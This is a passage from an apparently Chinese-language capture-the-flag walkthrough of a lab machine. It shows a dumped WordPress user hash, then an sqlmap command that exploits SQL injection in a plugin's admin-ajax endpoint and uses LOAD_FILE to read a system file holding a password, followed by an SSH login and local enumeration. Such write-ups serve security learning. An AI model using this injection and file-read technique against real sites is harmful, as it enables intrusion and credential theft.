 ```bash
| 1  | <blank>  | $wp$2y$10$ylcSQukwQZAMcFcQTmFzVuJhcr6CoEflSJs6pSiA9OG0JWOpAEYVq | no@thankyou.com | adminer    | 0           | adminer      | adminer       | 2025-05-28 10:35:26 | <blank>             |
+----+----------+-----------------------------------------------------------------+-----------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```

获得用户：`adminer`，密码哈希：`$wp$2y$10$ylcSQukwQZAMcFcQTmFzVuJhcr6CoEflSJs6pSiA9OG0JWOpAEYVq`

### 读取系统文件

利用MySQL的LOAD_FILE函数读取`/etc/jimmy.txt`：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sqlmap -u "http://wordpress.local:8000/wp-admin/admin-ajax.php?s=test&action=depicter-lead-index" -p s --sql-query "SELECT LOAD_FILE('/etc/jimmy.txt')" --batch
...
SELECT LOAD_FILE('/etc/jimmy.txt'): 'HandsomeHU\n'
```

成功获取jimmy用户密码：`HandsomeHU`

# 四、系统访问

## SSH登录

使用获取的凭据登录SSH：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh jimmy@192.168.205.131                                                                                                                                    
jimmy@192.168.205.131's password: 
Linux Ximai 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64
...
jimmy@Ximai:~$ echo $PATH
./...
```

发现PATH环境变量被限制，需要重新设置：

```bash
jimmy@Ximai:~$ export PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
```

## 信息收集

检查sudo权限和系统信息：

```bash
jimmy@Ximai:~$ sudo -l
Sorry, user jimmy may not run sudo on Ximai.
```
